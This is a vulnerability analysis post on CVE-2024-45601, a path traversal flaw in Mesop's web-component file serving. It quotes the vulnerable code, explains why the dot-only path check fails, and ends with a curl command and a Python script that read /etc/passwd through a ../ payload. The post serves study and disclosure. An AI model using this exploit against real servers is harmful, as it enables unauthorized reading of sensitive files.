 ```yaml
---
layout: post
title: CVE-2024-45601 Path traversal
date: 2024-11-01
categories: ["1-Day-Analysis", "Python", "CVE-2024-45601"]
---
```


# Sumary

Path Traversal is vulnerability allow attacker able read any file on the system such as `/etc/passwd`. In the CVE-2024-45601, code use `os.path.join(os.getcwd(), path)` without any validate path, so this is lead to vulnerability path traversal. 

This is commit code for this vulnerability: https://github.com/google/mesop/commit/17fb769d6a91f0a8cbccfab18f64977b158a6a31#diff-af4fe7ee2dbe81359f65e957b13dd9ef25d3941cd3952ae6e1d9143e90bd4e1dL99

# Analysis Code

In the source with input `/{WEB_COMPONENTS_PATH_SEGMENT}/<path:path>` attacker can insert with url: `/{WEB_COMPONENTS_PATH_SEGMENT}/../../../../../../../../etc/passwd` then path = `../../../../../../../../etc/passwd`.

```
@app.route(f"/{WEB_COMPONENTS_PATH_SEGMENT}/<path:path>")
  def serve_web_components(path: str):
    if not is_file_path(path):
      raise MesopException("Unexpected request to " + path)
    serving_path = (
      get_runfile_location(path)
      if has_runfiles()
      else os.path.join(os.getcwd(), path)
    )
    return send_file_compressed(
      serving_path,
      disable_gzip_cache=disable_gzip_cache,
    )

def is_file_path(path: str) -> bool:
  _, last_segment = os.path.split(path)
  return "." in last_segment
```

After, code will call function `is_file_path(path)` to check path is valid or not. 

```
def is_file_path(path: str) -> bool:
    _, last_segment = os.path.split(path)
    return "." in last_segment
```

However, function `is_file_path` is just check `.` in the path, it is not prevent vulnerability path traversal. 

Handle path

```
serving_path = (
  get_runfile_location(path)
  if has_runfiles()
  else os.path.join(os.getcwd(), path)
)
```

```
def get_runfile_location(identifier: str) -> str:
    if runfiles.Create() is None:
        current_file_dir = os.path.dirname(__file__)
        return os.path.join(
            current_file_dir, "../" + identifier[len("mesop/mesop/"):]
        )
    return runfiles.Create().Rlocation(identifier)
```

Function `get_runfile_location(identifier)` will create path base on `identifier` but not check `../` in the path. 

If `has_runfiles()` return `True` function `get_runfile_location(identifier)` will create path. However, if return `False` serving_path will create path with `os.path.join(os.getcwd(), path)` and dont have any validate. 

After serving_path is created, file will send to user via `send_file_compressed` function. If file is sensitive data, user can be read sensitive information. 

# Exploit

To the exploit vulnerability path traversal, i can use curl or code python

With curl 

```
curl -X GET "http://localhost:5000/WEB_COMPONENTS_PATH_SEGMENT/../../../../../../etc/passwd"
```

With exploit via python code: 

```
import requests

# Application URL with the path traversal endpoint
base_url = "http://localhost:5000"  
path_segment = "WEB_COMPONENTS_PATH_SEGMENT" 

# Path traversal payload
payload_path = "../../../../../../etc/passwd"

# Create the full URL with the path traversal payload
exploit_url = f"{base_url}/{path_segment}/{payload_path}"

# Send the GET request to the server
try:
    response = requests.get(exploit_url)

    # Check and print the result
    if response.status_code == 200:
        print("Path traversal successful! Contents of /etc/passwd:")
        print(response.text)
    else:
        print(f"Request failed with status code: {response.status_code}")
        print("The application may have protected against path traversal.")
except requests.exceptions.RequestException as e:
    print(f"An error occurred while sending the request: {e}")
```

